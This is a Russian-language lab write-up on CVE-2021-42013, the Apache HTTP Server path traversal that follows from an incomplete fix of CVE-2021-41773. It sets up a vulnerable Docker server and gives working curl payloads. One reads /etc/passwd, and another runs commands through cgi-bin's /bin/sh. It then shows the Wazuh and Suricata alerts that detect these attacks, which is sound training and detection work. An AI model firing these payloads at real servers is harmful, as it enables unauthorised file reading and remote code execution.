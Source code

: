 # CVE-2021-42013

CVE-2021-42013 — это уязвимость, вызванная неполным исправлением [CVE-2021-41773](cve-2021-41773.md).&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу [http://ваш-ip:8080](http://xn---ip-5cdj7k:8080/) будет доступна дефолтная страница с фразой "It works!

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Предыдущая полезная нагрузка CVE-2021-41773 `http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd` была пропатчена, но не полностью.

Для реализации уязвимости нужно использовать `.%%32%65`

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Если на сервере включены моды cgi или cgid, эта уязвимость обхода пути позволит выполнить произвольные команды:

curl -v --data "echo;id" 'http://ваш-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости, о выводе файла /etc/passwd в ответе на ваш запрос и о выполнении произвольных команд.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

